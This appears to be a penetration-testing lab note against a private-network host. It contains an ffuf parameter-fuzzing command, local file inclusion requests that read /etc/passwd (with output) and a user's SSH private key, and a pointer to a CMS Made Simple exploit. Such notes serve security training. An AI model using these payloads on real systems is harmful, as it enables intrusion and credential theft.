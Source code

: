 ```Creds>>>
Usernames:
qiu
```


```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt:FFUZ -u http://192.168.3.189/test.php?FFUZ=id -ic -c -fs 80
```


## LFI
```http
http://192.168.3.189/test.php?file=../../../../etc/passwd
```

```users
root:x:0:0:root:/root:/bin/bash
qiu:x:1000:1000:qiu:/home/qiu:/bin/bashe
```

CONFIG INFO TO CMS
```http
https://www.novelsite.ru/gde-dostup-basa-dannyh-cms-config.html
```

SSH
```http
http://192.168.3.189/test.php?file=../../../../../home/qiu/.ssh/id_rsa
```

## Searchsploit

> [!warning]
> CMS Made Simple version 2.2.15

```http
https://www.exploit-db.com/exploits/49345
```
___


```http
https://192.168.3.189:9090/
```
